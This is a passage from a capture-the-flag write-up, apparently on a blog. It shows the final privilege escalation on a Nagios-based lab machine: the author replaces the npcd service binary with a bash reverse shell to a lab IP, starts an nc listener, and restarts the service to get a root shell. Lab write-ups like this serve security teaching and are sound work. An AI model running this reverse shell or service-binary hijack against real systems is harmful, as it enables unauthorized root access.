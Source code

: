 Hum, like it!  

First, I just put my revshell into:
```shell
nagios@monitored:~$ cat /usr/local/nagios/bin/npcd
#!/bin/env bash
bash -p -i >& /dev/tcp/10.10.14.115/1998 0>&1
```
Start my listener:
 ```shell
 nc -lvnp 1998
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::1998
Ncat: Listening on 0.0.0.0:1998
```
Then, I start the service from `/usr/local/nagiosxi/scripts/manage_services.sh`:  
![monitored20](/images/blog/writeup/monitored/monitored20.png)

<p style="color: darkred; font-weight: bold; text-align: center;">
PWNED!
</p>
